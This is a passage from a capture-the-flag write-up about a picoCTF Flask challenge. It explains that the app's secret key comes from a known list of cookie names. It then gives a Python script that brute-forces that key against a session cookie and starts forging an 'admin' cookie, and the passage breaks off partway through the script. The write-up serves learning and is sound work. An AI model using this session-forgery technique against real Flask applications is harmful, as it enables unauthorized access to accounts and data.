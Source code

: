 ```python
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

The `app.secret_key = random.choice(cookie_names)` is what should scare most: we have `cookie_names`, so we could forge and bruteforce (by trying with every element of the array) the secret key. But let's keep investigating on the challenge itself.  
A cool thing to see is in `/display`: if `very_auth` is `admin` the flag will be shown. Just to be sure, I looked at the cookies from the website and saw a `session` one, with `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YaYtFQ.gZ6X730fs_kWWAeda1trQxslKpI`.

A Flask cookie structure is `session data (base64)` + `timestamp` + `hash`

By decoding the first part we can see `{"very_auth":"blank"}`, so this is what we expected, and we have to modify this in order to have `admin` as value. Thanks to  [this](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce) article I found out how to do that in Python, and I modified the script to be able to retrieve a session cookie first, find the used key, sign the new cookie and make the right request back to get the flag:
```python
import flask
import hashlib
import requests
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import URLSafeTimedSerializer, TimestampSigner, BadSignature

base_url = "http://mercury.picoctf.net:44693/"
s = requests.Session()
s.get(base_url)
cookie = (s.cookies).get_dict()
cookie = cookie['session']

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
session = {"very_auth" : "admin"}
secret = ""

for name in cookie_names:
    try:
        serializer = URLSafeTimedSerializer(
            secret_key=name,  
            salt='cookie-session',
            serializer=TaggedJSONSerializer(),
            signer=TimestampSigner,
            signer_kwargs={
                'key_derivation' : 'hmac',
                'digest_method' : hashlib.sha1
        }).loads(cookie)
    except BadSignature:
        continue

    secret = name
    print("Secret key found: {}".format(secret))    

new_cookie = URLSafeTimedSerializer(
    secret_key=secret,
    salt='cookie-session',
```